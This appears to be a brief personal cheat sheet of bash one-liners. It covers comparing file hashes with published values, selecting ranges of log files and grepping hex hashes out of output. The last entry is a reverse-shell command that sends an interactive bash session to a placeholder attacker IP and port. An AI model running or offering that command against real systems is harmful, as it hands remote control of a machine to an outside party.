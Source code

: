 # bash

### diff a file hash with its published value

`diff <(shasum -a 256 /path/to/file.ext) <(echo "published_sha256_value")`

use something like `... | sed 's/ .*$//'` to strip the extraneous info from the shasum cmd. Add info to the end of the published value to test.

`diff <(shasum -a 256 /path/to/file.ext | sed 's/ .*$//') <(echo "published_sha256_value")`

### carve a range of files by exact beginning and end

`ls -lh | grep "some_logs.log" | grep -E "1[3-9].gz|2[0-6].gz"`

Lists only `some_logs_13.gz` to `some_logs_26.gz`. Pipe that into whatever to do whatever.

### find hashes (hex) from output

`grep -a [a-f0-9]\{32\}`

Pipe output from things like `strings` here to finds hashes. The above will work for all hashes that are 32 characters or greater (md5, sha256, etc). Not perfect; will catch any string that matches the pattern, not just hashes. Adapt as needed. To find sha256 you could do

`grep -a [a-f0-9]\{64\}`

### reverse shell

`bash -i >& /dev/tcp/<attacker ip>/<listening port> 0>&1`
